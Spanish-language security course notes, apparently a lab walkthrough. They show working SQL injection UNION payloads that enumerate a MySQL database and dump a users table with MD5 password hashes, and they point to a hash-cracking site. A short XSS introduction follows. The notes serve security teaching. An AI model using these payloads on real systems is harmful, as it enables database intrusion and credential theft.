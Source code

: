 ~~~
2' and 1=1 union select 1,table_name from information_schema.tables #
~~~
Nombre de todas las tablas, entre las que destaca una de usuarios  _users_ a la que podemos atacar. 

~~~
2' and 1=1 union select 1,table_name from information_schema.tables where table_schema!='mysql' and table_schema!='information_schema' and  table_schema!='performance_schema' #
~~~
Se filtra la base de datos information_schema, performance_schema y mysql

~~~
2' and 1=1 union select 1,column_name from information_schema.columns where table_name='users' #
~~~
Se accede dentro de la tabla y se listan las columnas que tiene

~~~
2' and 1=1 union select 1,concat(first_name,0x0a,password) from users #
~~~
Se obtiene los usuarios con las contraseñas en md5. El _0x0a_ es un _Enter_ en hexadecimal.
- admin: 5f4dcc3b5aa765d61d8327deb882cf99
- Gordon: e99a18c428cb38d5f260853678922e03
- Hack: 8d3533d75ae2c3966d7e0d4fcc69216b
- Pablo: 0d107d09f5bbe40cade3de5c71e9e9b7
- Bob: 5f4dcc3b5aa765d61d8327deb882cf99

Para descifrar la password se puede utilizar algún servicio online como:
https://hashes.com/en7decrypt/hash

## XSS

### [Primer Video](https://youtu.be/kMA1y-SLnlg)

En este video se realizará una de las prácticas realizadas en uno de los cursos de seguridad sobre ataques con __XSS__ este  es un ataque dirigido a páginas web y consistente en
poder inyectar código HTML y Javascript sin que sea validado para conseguir algún provecho.

Este vector de ataque es usado para robar:
- Información sensible
- Secuestrar sesiones de usuario
- Subyugar en la integridad del sistema

Existen dos tipos de XSS
- Directa
	- También conocida como persistente
	- Difícil de encontrar
	- Suele encontrarse en formularios
	- Con este método, siempre que alguien entre en la ruta donde se ha inyectado el código se ejecutará en su navegador
- Indirecta
	- También conocida como reflejada
	- Más fácil de encontrar
	- Código inyectado a través de formularios, URL, programas en Flash o incluso vídeos
	- Complicado tener éxito ya que hay que conseguir que alguien entre en el enlace malicioso.
